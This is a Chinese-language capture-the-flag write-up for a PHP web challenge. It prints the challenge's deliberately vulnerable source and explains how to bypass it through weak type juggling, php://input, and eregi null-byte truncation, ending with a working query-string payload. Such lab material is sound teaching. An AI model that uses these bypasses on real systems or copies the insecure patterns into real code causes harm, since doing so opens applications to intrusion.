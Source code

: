 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.访问并查看源代码，发现提示：

![](files_for_writeup/2.png)

3.访问challenge3.phps，得到源码：

```php
<?php
error_reporting(0);
echo "<!--challenge3.phps-->";
require __DIR__.'/lib.php';
if(!$_GET['id'])
{
    header('Location: challenge3.php?id=1');
    exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
    echo 'Hahahahahaha';
    return ;
}
$data = @file_get_contents($a,'r');
if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
    echo $flag;
}
else
{
    print "work harder!harder!harder!";
}
?>
```

4.php弱类型绕过。当`$a`为`php://input`，`$data`可以通过`php://input`来接受post数据。`$id`传一个字符进去，会被转换为0。对`$b`，要求长度大于5，其次要求满足`eregi`的要求和首字母不为4。可以设置`$b`为`%00111111`，这样，`substr（）`会发生截断，在匹配时时进行`eregi(“111”,”1114”)`满足，同时`%00`对`strlen`不会发生截断。

5.输入payload：

```php
?id=a&a=php://input&b=%0011111

POST:
1112 is a nice lab!
```

![](files_for_writeup/3.png)
